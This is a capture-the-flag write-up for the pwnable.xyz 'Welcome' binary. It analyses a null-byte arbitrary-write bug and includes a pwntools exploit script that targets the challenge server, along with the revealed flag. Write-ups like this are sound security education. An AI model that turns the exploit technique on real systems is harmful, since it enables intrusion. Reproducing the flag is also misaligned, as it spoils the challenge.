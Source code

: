 # pwnable.xyz - Welcome
Link to binary: https://pwnable.xyz/redisfiles/challenge_21.gz

Description: *Are you worthy to continue?*

## binary
Running `file` and `checksec` commands on the binary, reveals that it's a **64-bit ELF** with all the protections enabled.

![](images/file.png)
![](images/checksec.png)

This usually means that the vulnerability will either be a **logic mistake** in the code or a **heap** related one, especially if there's no way to get any leaks. I expect nothing too hard though since this is supposed to be a *welcome* challenge.

## ./challenge
Let's run the binary first.

![](images/run.png)

Running the binary prints a leak, asks for a message length and a message of our choice and then exits. If the provided message is bigger than the length specified, the additional characters are ignored. So, let's see what's going on behind the scenes.

## IDA

Decompile the binary with IDA:

### main()
![](images/main.png)

Our goal here is to call `system("cat /flag")` and print the flag on the remote server. To do that, the expression `!*v3` must be true, which means that the first byte of v3 (**v3[0]**) must be equal to **0** but the program sets it to **1** right after it allocates space for the v3 buffer. The program then prints the address of v3 which is our *leak*, so we know where v3 is located, but it is not used again in the binary.

On our part, we control the **size** or **size[0]** variable through scanf() which is used to allocate a buffer (**v4**) of that size. We can also write up to that many bytes in the v4 buffer.

## vulnerability
The issue here is that the program attempts to write a null byte (as it should) at the end of the v4 buffer after writing to it, `v4[size[0] - 1] = 0` but in a not secure way. Since we control the size[0] variable, this line of code introduces an **arbitrary write** vulnerability through the v4 buffer, which allows us to write a **0** (null byte) **wherever** we want in the address space.

## attack plan
Now it should be pretty obvious what we're trying to do.. We just have to specify the leaked address of the v3 buffer as the message length and add 1 to it, so that line 21 will look something like this: `v4[v3[0]] = 0` which will successfully write a **0** at the first byte of **v3** and print the flag.

## exploit
Here is the script that grabs the leak and sends it as the message length:

```python  
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b *__libc_start_main+133
'''

IP = "svc.pwnable.xyz"
PORT = 30000 

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()
    
    # Receive buffer leak
    io.recvuntil(": ")
    leak = int(io.recvline()[:-1], 16)
    log.info(f"buf leak: {hex(leak)}")
	
	# Send leak
    io.sendlineafter(": ", str(leak+1))
    io.sendlineafter(": ", "")
    
    print(io.recvall())

if __name__ == "__main__":
    pwn()
```

Run it on the server and we get the flag: `FLAG{did_you_really_need_a_script_to_solve_this_one?}`
(ouch)
